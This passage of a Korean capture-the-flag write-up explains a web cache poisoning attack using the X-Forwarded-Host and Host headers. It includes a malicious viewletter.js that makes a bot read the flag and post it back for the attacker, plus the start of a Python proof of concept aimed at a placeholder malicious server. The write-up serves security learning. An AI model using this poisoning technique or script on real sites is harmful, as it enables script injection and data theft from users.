 ```plaintext
    } else {
        hash_data(server.ip);
    }

    return (lookup);
}

...

```
{: file='cache.vcl'}
<br/>

아래와 같이 `X-Forwarded-Host`헤더를 추가하여 cdn의 url을 조작할 수 있었다. 그리고 `Host`헤더 같은 경우, 우리는 bot의 요청을 poisoning 해야하기 때문에 로컬 호스트로 변조가 반드시 필요하다.  
![host](../../../assets/img/2023-02-03/host.png){: w="800" h="400" }  
<br/>

# Exploit
***
그렇다면 공격 시나리오는 다음과 같이 구성할 수 있다.  
1. 공격자는 자신의 서버 `static` 디렉토리에 `viewletter.js` 악성 스크립트를 작성한다. 
2. 공격자는 `/letters?id=<next_id>`를 `cache poisoning`으로 base url을 공격자 서버로 바꾼다.
3. `/submit`을 이용하여 `<next_id>` 번째의 메시지를 작성한다. -> 그렇다면 봇이 `/letters?id=<next_id>`를 방문하면서 오염된 캐시를 통해서 공격자 서버의 `viewletter.js`를 로드하게 된다.

공격자 서버의 `viewletter.js`는 아래와 같이 작성하였다. `/message/3` 엔드포인트 방문을 통해서 봇이 플레그를 읽으면 그것을 공격자가 볼 수 있도록 메시지를 봇이 작성을 하는 형태이다.  
```javascript
fetch("http://127.0.0.1/message/3").then((r) => {

    return r.text();

}).then((x) => {
    fetch("http://127.0.0.1/submit", {
        "headers": {
            "content-type": "application/json"
        },
        "body": x,
        "method": "POST",
    });
});
```
{: file='viewletter.js'}
<br/>

## PoC Code
***
```python
from requests import Session
from time import sleep

info = lambda x: print(f'[+] {x}')
s = Session()

URL = 'http://<HOST>:<PORT>'
M_SERVER = '<MALICIOUS SERVER>'

def get_id():
    res = s.get(f'{URL}/message/1')
    current_id = res.json()['count']
    return current_id
```